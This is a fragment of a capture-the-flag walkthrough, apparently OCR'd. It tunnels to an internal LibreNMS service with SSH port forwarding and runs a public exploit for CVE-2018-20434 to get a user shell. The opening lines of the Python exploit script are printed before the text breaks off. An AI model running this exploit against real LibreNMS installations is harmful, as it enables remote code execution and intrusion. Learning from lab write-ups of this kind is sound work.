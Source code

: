 >> so i forward the all these ports using ssh local port forwarding.

# ssh -L 3306:127.0.0.1:3306 aeolus@<IP>

>> then i visit port 8080. on port 8080 librenms service is running. this tool is used for network management and analysis.
>> so queckly serach librenms service exploits and i found 1 vulnerbility.

# Exploit : LibreNMS v1.46 authenticated Remote Code Execution

>> the download this script and perform all instructions and i got shell of cronus user.

################################

#!/usr/bin/python

'''
# Exploit Title: LibreNMS v1.46 authenticated Remote Code Execution
# Date: 24/12/2018
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2018-20434
# Vendor Homepage: https://www.librenms.org/
# Version: v1.46
# Tested on: Ubuntu 18.04 / PHP 7.2.10
'''

import requests
from urllib import urlencode
import sys

if len(sys.argv) != 5:
    print "[!] Usage : ./exploit.py http://www.example.com cookies rhost rport"
    sys.exit(0)

# target (user input)
target = sys.argv[1]

# cookies (user input)
raw_cookies = sys.argv[2]
